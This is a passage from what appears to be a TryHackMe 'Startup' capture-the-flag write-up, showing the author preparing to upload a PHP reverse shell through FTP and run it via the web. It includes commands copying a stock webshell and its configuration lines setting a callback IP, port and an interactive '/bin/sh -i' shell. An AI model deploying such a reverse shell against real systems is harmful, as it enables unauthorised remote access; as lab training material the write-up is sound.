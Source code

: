 ```highlight
2020/11/21 11:22:32 Finished
===============================================================
```

'/files' looks interesting. 

![files](/assets/images/startup/files.png)

This mirrors the files seen on the FTP service, so my first thought is to see if we can upload a reverse shell script via ftp and execute via the web. 

### Initial Access

The first step is to copy a web shell script in to our working directory. 

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Startup]
└──╼ $cp /usr/share/webshells/php/php-reverse-shell.php 
┌─[daz@parrot]─[~/Documents/TryHackMe/Startup]
└──╼ $mv php-reverse-shell.php shell.php
┌─[daz@parrot]─[~/Documents/TryHackMe/Startup]
└──╼ $
```

I edited the script with my vpn IP and changed the port to 4444.

```highlight
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
